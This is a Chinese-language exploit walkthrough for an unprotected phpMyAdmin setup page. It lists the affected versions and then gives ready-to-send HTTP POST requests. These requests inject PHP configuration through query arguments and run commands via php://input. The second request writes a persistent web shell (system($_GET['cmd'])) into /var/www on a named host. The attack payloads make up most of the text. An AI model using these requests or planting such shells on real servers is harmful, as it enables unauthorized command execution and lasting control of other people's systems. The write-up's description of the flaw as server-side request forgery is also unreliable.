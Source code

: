# Phpmyadmin setup页面配置不当的利用姿势整合

## 一、漏洞简介

其安装在Web服务器上的接口界面,主要用于使用php来管理安装服务器上的后台数据库(MySQL数据库),但如果采用默认安装,敏感路径未做出处理,便会存在安全漏洞,最突出的是其setup脚本中存在着服务器端请求伪造漏洞。远程攻击者可利用该漏洞执行未授权的操作。

## 二、漏洞影响

phpMyAdmin 4.0.10.19之前的版本，4.4.15.10之前的4.4.x版本，4.6.6之前的4.6.x版本。

## 三、复现过程

如果用户未对phpmyadmin目录下的setup文件进行安全处理,那普通用户可以在不进行身份认证的情况下,便可以配置服务器信息(防范措施:不允许其他用户从公网访问phpMyAdmin目录或者禁止访问setup文件)

![1.png](images/5c7523c979f440b0b431142f18ac8bb3.png)
我们可以通过构造参数执行配置指令,并利用php伪协议提交post内容执行

```php
POST http://www.baidu.com/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1      
 #问号及其后面的内容用于修改修改php的主配置文件php.ini，从而可以执行下面插入的php代码

Host: www.baidu.com

Content-Length: 35

<?php 

passthru('id');        
 #passthru() 函数用于调用系统命令，并把命令的运行结果原样地直接输出到标准输出设备上。
 #也可以将id命令换成其他Linux命令去获取web系统的数据,目前使用的是普通用户www-date,权限有限

die();                
 #die() 函数输出一条消息，并退出当前脚本,此处使用为了避免获取多余无用的信息

?>

```

可以使用Burpsuite的Repeater工具该发送post请求,获取目标的信息

![3.png](images/6baaad331bb14f1790456c89f1aefdbd.png)

由刚刚的id命令得知目前的用户为www-data,由查看账户信息得知其主目录为/var/www,那么便可以向其主目录写入木马,以实现远程控制的效果

![4.png](images/6dfe5e923a13487d94ab34795e566b7c.png)

![5.png](images/c8815344e50841a1a06aded3fc52a2b2.png)

命令如下

```bash
POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: www.0-sec.org
Content-Length: 102

<?php 

passthru('echo "<?php \$cmd = \$_GET["cmd"];system(\$cmd);?>" >/var/www/2.php');
#该木马表示将GET方式获取的指令赋值于cmd命令,并使用system()函数运行cmd变量存储的命令
#反斜杠作用:避免服务器将上传内容过滤,输入命令无效
die();

?>

```

通过在浏览器访问该木马,便可获取目标系统的shell
![6.png](images/24a7bd4276bd42bc9f97b52eb5d3e59a.png)

## 参考链接

> https://louisnie.github.io/2018/10/23/%E6%89%8B%E5%8A%A8%E6%8C%96%E6%8E%98%E4%B9%8B%E9%BB%98%E8%AE%A4%E5%AE%89%E8%A3%85%E6%BC%8F%E6%B4%9E-1/

